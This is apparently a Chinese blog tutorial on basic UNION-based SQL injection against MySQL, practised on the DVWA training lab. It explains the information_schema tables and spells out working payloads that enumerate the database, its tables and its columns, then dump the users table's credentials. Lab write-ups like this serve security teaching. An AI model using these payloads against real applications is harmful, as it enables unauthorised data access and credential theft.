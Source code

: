 ```yaml
---
title: 简单sql注入过程
date: 2018-07-06 14:17:10
tags: sql
---
```


原理就不说了，介绍最简单的sql注入的一般过程，单引号型且无过滤

# 常用函数

* user()：返回数据库的用户名
* database()：返回当前用的数据库名
* version()：返回数据库版本
* union()：连接多个select结果，要求每个语句有相等的列，列类型、顺序相等
* concat_ws()：将一行结果中的多列连接起来，第一个参数为连接分割符，后面参数为要查询的东西


# mysql通用数据库

每个mysql都有一个通用数据库：information_schema，其中有几个重要的表：

* SCHEMATA
	* 存储所有数据库
	* 重要列：
		* SCHEMA_NAME：数据库的名字
* TABLES
	* 存储所有表
	* 重要列：
		* TABLE_SCHEMA：该表所在的数据库名
		* TABLE_NAME：表名
* COLUMNS
	* 存储所有列
	* 重要列：
		* TABLE_SCHEMA：该列所在表所在数据库名
		* TABLE_NAME：该列所在的表名
		* COLUME_NAME：列名


用法：

1. 通过database()得到所用的数据库
2. 通过TABLES表，匹配数据库名，来查看该库中有哪些表
3. 通过COLUMNS表，匹配数据库名、表名，来查看该表中有哪些列
4. dump


# 具体实例


环境为xampp+dvwa，设置安全系数为low

1. 找注入点：明显是个单引号注入
2. 注入：
	* 查看所用库： `' union select 1,database()#` 
	
	![](https://i.imgur.com/kR2CYY5.png)

	* 查看该库中的所有表： 
	
	`' union select 1,TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' #`
	
	![](https://i.imgur.com/Oo1bHBA.png)

	* 查看users表中有哪些列： 
	
	`' union select 1,COLUMN_NAME from information_schema.COLUMNS where  TABLE_SCHEMA = 'dvwa' and TABLE_NAME = 'users' #`
	
	![](https://i.imgur.com/5QwxXg7.png)
	* dump:	`' union select 1,concat_ws(' - ',user_id,first_name,last_name,user,password) from users #`

	![](https://i.imgur.com/MtbNVPP.png)


# 小结
这是最简单的注入过程，也可用sqlmap代替

注入的难点在于找到注入点，和绕过对关键字的过滤


